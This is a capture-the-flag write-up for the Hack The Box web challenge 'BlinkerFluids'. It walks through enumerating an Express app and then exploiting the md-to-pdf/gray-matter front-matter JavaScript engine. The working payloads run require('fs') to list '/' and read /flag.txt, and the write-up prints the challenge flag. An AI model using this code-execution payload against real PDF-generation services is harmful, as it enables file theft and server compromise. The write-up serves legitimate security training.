

# BlinkerFluids

## CHALLENGE INFO

> Once known as an imaginary liquid used in automobiles to make the blinkers work is now one of the rarest fuels invented on Klaus' home planet Vinyr. The Golden Fang army has a free reign over this miraculous fluid essential for space travel thanks to the Blinker Fluids™ Corp. Ulysses has infiltrated this supplier organization's one of the HR department tools and needs your help to get into their server. Can you help him?

### Resources

- Docker instance: `178.62.119.24:30101`
- Downloadable part: `web_blinkerfluids.zip`


## Enumeration

```bash
$ ll
total 244
-rw-r--r-- 1 hag hag    585 May 18 20:36 README.md
-rw-r--r-- 1 hag hag 243236 May 18 20:36 web_blinkerfluids.zip

$ unzip web_blinkerfluids.zip
Archive:  web_blinkerfluids.zip
   creating: web_blinkerfluids/
   creating: web_blinkerfluids/config/
  inflating: web_blinkerfluids/config/supervisord.conf
  inflating: web_blinkerfluids/build-docker.sh
   creating: web_blinkerfluids/challenge/
  inflating: web_blinkerfluids/challenge/package.json
   creating: web_blinkerfluids/challenge/routes/
  inflating: web_blinkerfluids/challenge/routes/index.js
   creating: web_blinkerfluids/challenge/helpers/
  inflating: web_blinkerfluids/challenge/helpers/MDHelper.js
  inflating: web_blinkerfluids/challenge/database.js
   creating: web_blinkerfluids/challenge/views/
  inflating: web_blinkerfluids/challenge/views/index.html
  inflating: web_blinkerfluids/challenge/index.js
   creating: web_blinkerfluids/challenge/static/
   creating: web_blinkerfluids/challenge/static/images/
  inflating: web_blinkerfluids/challenge/static/images/favicon.png
   creating: web_blinkerfluids/challenge/static/js/
  inflating: web_blinkerfluids/challenge/static/js/main.js
  inflating: web_blinkerfluids/challenge/static/js/easymde.min.js
  inflating: web_blinkerfluids/challenge/static/js/jquery-3.6.0.min.js
   creating: web_blinkerfluids/challenge/static/invoices/
  inflating: web_blinkerfluids/challenge/static/invoices/f0daa85f-b9de-4b78-beff-2f86e242d6ac.pdf
   creating: web_blinkerfluids/challenge/static/css/
  inflating: web_blinkerfluids/challenge/static/css/easymde.min.css
  inflating: web_blinkerfluids/challenge/static/css/bootstrap.min.css
  inflating: web_blinkerfluids/challenge/static/css/main.css
 extracting: web_blinkerfluids/flag.txt
  inflating: web_blinkerfluids/Dockerfile

$ whatweb http://178.62.119.24:30101/
http://178.62.119.24:30101/ [200 OK] Bootstrap, Country[EUROPEAN UNION][EU], Email[gfaang23@gfang.htb,hr@BlinkerFluidsCorp.htb,receivable@BlinkerFluidsCorp.htb], HTML5, IP[178.62.119.24], JQuery[3.6.0], Script[text/javascript], Title[Blinker Fluids™], X-Powered-By[Express]
```

Ok, so we have an `Express`-backend and we have been provided with the source code for the `Node`-application.

Let's have a look at `index.js`:

```js
const express      = require('express');
const app          = express();
const path         = require('path');
const nunjucks     = require('nunjucks');
const routes       = require('./routes/index.js');
const Database     = require('./database');

const db = new Database('invoice.db');

app.use(express.json());
app.disable('etag');

nunjucks.configure('views', {
	autoescape: true,
	express: app
});

app.set('views', './views');
app.use('/static', express.static(path.resolve('static')));

app.use(routes(db));

app.all('*', (req, res) => {
	return res.status(404).send({
		message: '404 page not found'
	});
});

(async () => {
	await db.connect();
	await db.migrate();
	app.listen(1337, '0.0.0.0', () => console.log('Listening on port 1337'));
})();
```

We can see a reference to a database; `invoice.db`. We can also see some imported libraries. The line `const nunjucks     = require('nunjucks');` is interesting, `nunjucks` is a templating engine. Maybe we can do some sort of `RCE` using the templating features or maybe `LFI`.

Looking at the `nunjucks` docs at https://mozilla.github.io/nunjucks/templating.html#user-defined-templates-warning we can see the following:

> nunjucks does not sandbox execution so it is not safe to run user-defined templates or inject user-defined content into template definitions. On the server, you can expose attack vectors for accessing sensitive data and remote code execution. On the client, you can expose cross-site scripting vulnerabilities even for precompiled templates (which can be mitigated with a strong CSP). See this issue for more information.

That sounds promising.

Before we move on I think we should have a look at the actual website:


So we have a list of invoices and it looks like we can export or delete them. We can also create new invoices.

Let's have a look at the PDF in the list:


Let's click the "Create New Invoice" button:


Look at that, a WYSIWYG editor. Could this be a plausible way to test out the templating vector we mentioned earlier?

Let's give it a go. We can see from https://mozilla.github.io/nunjucks/templating.html#user-defined-templates-warning that we can use the`{{ }}` syntax in templates. This is a pretty standard syntax.

Let's try a `2+2` payload.


A new invoice was created, let's look at the PDF.




Nope, no success!

Back to the source code.

The `views` directory only contains one file; `index.html` and it also doesn't contain any templating syntax as far as I can see.

Taking a close look at `index.js`, we can also see the following code:

```js
nunjucks.configure('views', {
	autoescape: true,
	express: app
});
```

Looks like there is some escaping going on with `nunjucks` as well. Let's move on.

### `database.js`

All the database related code looks safe. Prepared statements are used in every function, so SQLi is out of the question.

### `Dockerfile`

Looking at the `Dockerfile` we can see that the flag we want is located here: `/flag.txt`.

```dockerfile
# Add flag
COPY flag.txt /flag.txt
```

### `MDHelper.js`

Next we take a closer look at the PDF export.

```js
const { mdToPdf }    = require('md-to-pdf')
const { v4: uuidv4 } = require('uuid')

const makePDF = async (markdown) => {
    return new Promise(async (resolve, reject) => {
        id = uuidv4();
        try {
            await mdToPdf(
                { content: markdown },
                {
                    dest: `static/invoices/${id}.pdf`,
                    launch_options: { args: ['--no-sandbox', '--js-flags=--noexpose_wasm,--jitless'] } 
                }
            );
            resolve(id);
        } catch (e) {
            reject(e);
        }
    });
}

module.exports = {
    makePDF
};
```

The library `md-to-pdf` is used for the PDF generation. And it looks like `nunjucks` isn't used for the PDFs at all. So that was a dead end.

While googling `md-to-pdf` I came across https://md2pdf.netlify.app/:


That's interesting. Could we try an iframe to read the flag using `file:///flag.txt`?


I guess not... Let's try using `<iframe src="/flag.txt"></iframe>`:


So at least the invoice generation worked now and we could export the PDF and see that the iframe is present, but it won't load our flag. Nice try though.

I do think we're on the right track. Doing some more research takes us to this GitHub issue: https://github.com/simonhaenisch/md-to-pdf/issues/99:

### Security: gray-matter exposes front matter JS-engine that leads to arbitrary code execution #99

> The library gray-matter (used by md-to-pdf to parse front matter) exposes a JS-engine by default, which essentially runs eval on the given Markdown.

A comment on the issue has a PoC:

```js
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```

Let's try it:


There we go, we have RCE!

The PoC payload uses the `fs` library to list out all the files in `/`. We can even see our `flag.txt` in there.

`fs` also has a method to read the contents of a file; `fs.readFileSync()`. More information here: https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/.

Let's get the content of the file next. We need to modify the payload:

```js
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt')}"; display: block }`,
}
---
```

Let's save the invoice and export the PDF:


Success!


## Flag

`HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`


## Summary

By browsing the website and application source code, we were able to find multiple plausible techniques to get access to the flag. We tried all the techniques one by one and were successful in the end.
